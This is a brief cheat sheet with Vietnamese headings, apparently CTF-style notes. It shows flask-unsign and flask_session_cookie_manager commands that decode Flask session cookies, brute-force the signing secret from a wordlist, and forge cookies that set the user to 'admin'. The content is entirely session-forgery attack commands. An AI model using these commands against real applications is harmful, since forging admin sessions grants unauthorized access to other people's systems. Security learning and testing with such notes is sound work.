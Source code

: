 # Flask Python

# flask-unsign

## Để decode cookie
```cmd
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' 
```

## Để dò secret
```cmd
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' --wordlist=worklist_cookie.txt
```

## Thay đổi cookie và bỏ secret vào
```cmd
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
```

# Flask Session Cookie

## Để decode cookie với secret
```cmd
python3 flask_session_cookie_manager3.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw' -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d'
```

## decode ko có secret 
```cmd
python3 flask_session_cookie_manager3.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw'
```


## Thay đổi cookie và bỏ secret vào
```cmd
python3 flask_session_cookie_manager3.py encode -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d' -t '{"number":"326410031505","username":"admin"}'
```
